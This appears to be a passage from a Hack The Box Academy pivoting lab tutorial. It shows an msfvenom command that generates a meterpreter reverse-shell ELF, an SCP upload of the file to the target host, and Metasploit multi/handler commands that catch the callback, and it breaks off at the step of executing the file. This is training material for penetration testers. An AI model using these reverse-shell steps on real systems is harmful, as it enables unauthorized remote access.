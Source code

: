 
---

## Setting Up Pivoting - Metasploit

Alternatively, we can set up our pivoting using Metasploit, as covered in the [Meterpreter Tunneling & Port Forwarding](https://academy.hackthebox.com/module/158/section/1428) section of the Pivoting module. To achieve this, we can do the following:

First, generate a reverse shell in Elf format using `msfvenom`.

Internal Information Gathering

```shell-session
swmpdnky@htb[/htb]$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf > shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```

Next, transfer the host to the target. Since we have SSH, we can upload it to the target using SCP.

Internal Information Gathering

```shell-session
swmpdnky@htb[/htb]$ scp -i dmz01_key shell.elf root@10.129.203.111:/tmp

shell.elf                                                                      100%  207     1.6KB/s   00:00
```

Now, we'll set up the Metasploit `exploit/multi/handler`.

Internal Information Gathering

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Execute the `shell.elf` file on the target system:

Internal Information Gathering
